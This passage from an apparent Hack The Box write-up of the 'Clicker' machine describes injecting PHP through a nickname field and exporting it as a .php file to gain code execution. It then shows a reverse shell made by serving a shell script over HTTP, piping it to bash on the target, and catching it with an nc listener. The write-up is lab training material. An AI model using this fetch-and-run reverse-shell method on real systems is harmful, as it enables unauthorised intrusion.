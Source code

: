 ```

```

We can change the extension to be in .php format, so that if we inject code the server will execute it. But first, we need to make sure that we can set one of the fields to inject PHP. The three columns given to us are Nickname, Clicks, and Level. Clicks and Level are integers, so we can't do anything about that. We can change our nickname though! Using the endpoint from earlier, we can set our nickname to a PHP RCE:

![nickname](nickname.png)

We can give it a try and see what we get:

![export](assets/exportpng)

![export_result](export_result.png)

It has been saved. Now, we can try testing it out:

![rce](posts/HTB%20Machines/Clicker/assets/rce.png)

It worked! The id command was executed. Now, we can leverage this RCE to get a reverse shell. I'm not sure if special characters work here, so I'm not gonna do anything fancy. Just gonna set up a shell script from a HTTP server and pipe it to bash.

![shell](shell.png)

```
$ python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
::ffff:10.10.11.232 - - [05/Oct/2023 20:56:24] "GET /shell.sh HTTP/1.1" 200 -
```

```
$ nc -lvvvnp 4444 -s 10.10.16.31
Listening on 10.10.16.31 4444 (krb524)
Connection from 10.10.11.232:53864
bash: cannot set terminal process group (1200): Inappropriate ioctl for device
bash: no job control in this shell
www-data@clicker:/var/www/clicker.htb/exports$ 
```

It worked! We now have a shell as www-data.

## Shell as jack